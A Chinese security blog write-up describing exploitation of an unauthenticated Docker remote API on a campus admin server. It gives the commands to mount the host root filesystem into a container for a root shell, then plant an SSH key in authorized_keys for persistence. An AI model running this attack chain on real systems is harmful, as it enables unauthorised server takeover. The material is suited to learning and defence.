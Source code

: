 #  某校大数据管理后台Docker API未授权漏洞   
原创 大荒Sec  太乙Sec实验室   2025-06-01 05:58  
  
**免责声明****：**  
本公众号 **太乙Sec实验室**  
所提供的实验环境均是本地搭建，仅限于**网络安全研究与学习**  
。旨在为安全爱好者提供技术交流。任何个人或组织因传播、利用本公众号所提供的信息而进行的操作，所导致的直接或间接后果及损失，均由使用者本人负责。**太乙Sec实验室**  
及作者对此不承担任何责任  
  
  
实验背景  
  
翻了一下大一的笔记，记一次在校园的漏扫，某大数据管理后台Docker API未授权漏洞（  
内网映射对外开放）  
  
在  
docker  
上配置了远程访问  
docker  
  
节点上会开放一个  
TCP  
端口  
2375  
，绑定在  
0.0.0.0  
上，如果没有做限制的话，攻击者就可以通过  
Docker  
未授权来控制服务器  
。  
  
（注：本实验应在获得明确授权的教学网络环境中开展，严禁在生产环境进行类似操作）  
  
信息收集  
  
fscan一把梭，发现**172.16.55.3 code=200****，怀疑目标存在漏洞****,so****更一步进行资产收集****,****发现漏洞**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tHlQeib8sz1JrrIOaELWYObYOlnJ3WLTyiawoib5kuNKD5zTTLWI0XKTaIzVIpUIibXx6ZqkKUeltBcEcEsUpuymog/640?wx_fmt=png&from=appmsg "")  
  
GOBY一把梭  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/tHlQeib8sz1JrrIOaELWYObYOlnJ3WLTyJv8Z5KCEiasS18Wcd3gkamgDSHQOVmOibMr0VQnxh04ZCV6ZwFHj9BJQ/640?wx_fmt=jpeg&from=appmsg "")  
  
漏洞验证  
  
  
http://172.16.55.3:2375/info  
  
![图形用户界面, 文本, 电子邮件

描述已自动生成](https://mmbiz.qpic.cn/sz_mmbiz_jpg/tHlQeib8sz1JrrIOaELWYObYOlnJ3WLTydUx4fcGVZfAB95RhfNc4kSzVhVRNwTqCC3kbDbJETia2JqnjIlwvdPg/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tHlQeib8sz1JrrIOaELWYObYOlnJ3WLTyLzFfgKeFfbO0v13ibWsFATvicDichibMgIlJG1EbcJ0ohtbQd6CXMB0P1Q/640?wx_fmt=png&from=appmsg "")  
  
在这里拉取一个镜像文件  
busybox  
（  
id  
）  
  
![图形用户界面, 文本

描述已自动生成](https://mmbiz.qpic.cn/sz_mmbiz_jpg/tHlQeib8sz1JrrIOaELWYObYOlnJ3WLTyd2IZG13kDKtYniawqbvmtVBycoqojrJLibic5LIk8vHEamiawa2ohDyOtw/640?wx_fmt=jpeg&from=appmsg "")  
  
```
docker  -H tcp://172.16.55.3:2375 run -it -v /:/mnt  19485c79a9bb   /bin/bash 
```  
  
这条命令的意思是启动一个  
image ID  
  
为  
19485c79a9bb  
的容器，并且将该宿主机的根目录挂在到容器的  
/mnt  
目录下  
,  
最后启动之后就会获得该容器宿主机的  
shell   
```
Whoami发现是root 
直接cd mnt/root/
```  
  
![图形用户界面, 文本

描述已自动生成](https://mmbiz.qpic.cn/sz_mmbiz_jpg/tHlQeib8sz1JrrIOaELWYObYOlnJ3WLTyGHxFuCGAI77kAfejuYcV3zYV3f9TRb1aFJXPDa4uLD0Picib8gwybr1w/640?wx_fmt=jpeg&from=appmsg "")  
  
看到到服务器上的  
root  
下的文件。在  
kali  
生成：  
ssh-keygen -t rsa 看下生成的文件  
  
![图形用户界面

中度可信度描述已自动生成](https://mmbiz.qpic.cn/sz_mmbiz_jpg/tHlQeib8sz1JrrIOaELWYObYOlnJ3WLTyiaCJX9TxLibGTKIZsnDpkJzKWDmHicrNopdLIP6dpS0xJWfnRlN0d3DiaA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
id_rsa  
id_rsa.pub再回到远程主机上来使用  
echo  
指令将公钥写进去  
,  
达到远程免密  
ssh  
连接。  
```
ssh -i id_rsa root@ip
```  
  
总结  
  
本次攻击围绕校园大数据管理后台 Docker API 未授权漏洞展开，我将按照操作步骤梳理出完整的攻击链路：  
1. **信息收集**  
：使用 fscan 工具扫描发现目标 IP 172.16.55.3 响应 code=200，存在漏洞可疑性，后借助 GOBY 工具进一步确认资产信息，锁定漏洞。  
  
1. **漏洞验证**  
：访问http://172.16.55.3:2375/info，验证 Docker API 未授权访问漏洞存在。  
  
1. **权限获取**  
：拉取 busybox 镜像，执行docker -H tcp://172.16.55.3:2375 run -it -v /:/mnt 19485c79a9bb /bin/bash  
命令，将宿主机根目录挂载到容器 /mnt 目录，获取容器宿主机的 root 权限 Shell。  
  
1. **持久化控制**  
：在 Kali 系统中通过ssh-keygen -t rsa  
生成 SSH 密钥对，将公钥写入目标主机~/.ssh/authorized_keys  
文件，实现使用私钥ssh -i id_rsa root@ip  
远程免密登录控制 。  
  
往期精彩回顾  
  
[记一次某校情平台水平越权，导致全校学生信息泄露](https://mp.weixin.qq.com/s?__biz=Mzk0Mzc2MDQyMg==&mid=2247486513&idx=1&sn=fffe6f1b497c681987750137b266e65f&scene=21#wechat_redirect)  
  
  
[深度修复 DeepSeek 云端部署潜在威胁漏洞](https://mp.weixin.qq.com/s?__biz=Mzk0Mzc2MDQyMg==&mid=2247486497&idx=1&sn=b6699a63779636dfdbb736ce74f9ef07&scene=21#wechat_redirect)  
  
  
**关注我****，了解****更多知识，别忘****了关注****+点赞****哦！******  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RITPxDQz30icticGDszvMCTbvDxbl8zxyibqkfOTIRXJQVU3YEHicR6AiatHvlnPic7qayibiazKoJV54NVDMmL1uVqsGg/640?wx_fmt=other&random=0.008279855111830159&random=0.8417589579850686&random=0.7406363082812077&random=0.10974797073162001&random=0.07292006660739969&wxfrom=5&wx_lazy=1&wx_co=1&random=0.9329563926201925&random=0.7721899576088909&random=0.8732144113576208&random=0.19158149965875793&random=0.14234663701611816&random=0.6197239709294833&random=0.6087404282162256&random=0.7816651464380318&random=0.6382235312520264&random=0.18529992036868959&random=0.8108904783265143&random=0.8471140121001628&random=0.08898610680286101&random=0.008507273801011683&random=0.9647940082061903&random=0.49839411124559185&random=0.36416103289090485&random=0.8610727679390984&random=0.4202445756317146&random=0.5658152415600335&random=0.05215623887101817&random=0.054673954102818945&random=0.7636185446317116&random=0.6630448098148167&random=0.6555189201793772&tp=webp "")  
  
  
